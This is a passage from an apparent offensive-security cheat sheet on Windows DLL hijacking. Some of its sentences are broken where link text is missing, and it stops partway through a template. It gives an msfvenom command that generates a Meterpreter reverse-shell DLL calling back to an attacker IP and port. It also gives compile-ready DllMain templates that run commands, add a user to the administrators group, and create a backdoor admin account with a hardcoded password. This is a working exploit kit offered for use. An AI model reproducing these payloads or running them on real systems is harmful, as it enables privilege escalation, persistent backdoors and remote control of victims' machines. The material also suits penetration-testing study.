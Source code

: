 In case you find an exploitable scenario one of the most important things to successfully exploit it would be to create a dll that exports at least all the functions the executable will import from it. Anyway, note that Dll Hijacking comes handy in order to  or from. You can find an example of how to create a valid dll inside this dll hijacking study focused on dll hijacking for execution: .
Moreover, in the next section you can find some basic dll codes that might be useful as templates or to create a dll with non required functions exported.
Creating and compiling Dlls
Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
Your own
Note that in several cases the Dll that you compile must export several functions that are going to be loaded by the victim process, if these functions doesn't exist the binary won't be able to load them and the exploit will fail.
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\users\\username\\whoami.txt");
            WinExec("calc.exe", 0); //This doesn't accept redirections like system
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll
​
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
​
#include <windows.h>
​
int owned()
{
  WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
  exit(0);
  return 0;
}
​
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  owned();
  return 0;
}
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll
​
#include<windows.h>
